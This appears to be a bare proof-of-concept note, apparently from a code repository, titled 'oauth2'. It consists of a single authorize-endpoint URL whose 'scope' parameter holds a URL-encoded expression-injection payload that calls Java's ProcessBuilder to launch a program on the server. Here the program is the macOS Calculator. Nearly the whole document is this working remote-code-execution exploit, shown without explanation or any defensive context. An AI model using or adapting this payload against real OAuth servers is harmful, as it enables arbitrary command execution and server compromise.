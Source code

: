 # oauth2
http://127.0.0.1:8080/oauth/authorize?client_id=tonr&redirect_uri=http://localhost:8089/sparklr/photos&response_type=code&scope=%24%7b(new+java.lang.ProcessBuilder(%22%2fApplications%2fCalculator.app%2fContents%2fMacOS%2fCalculator%22)).start()%7d&state=1uzRv2

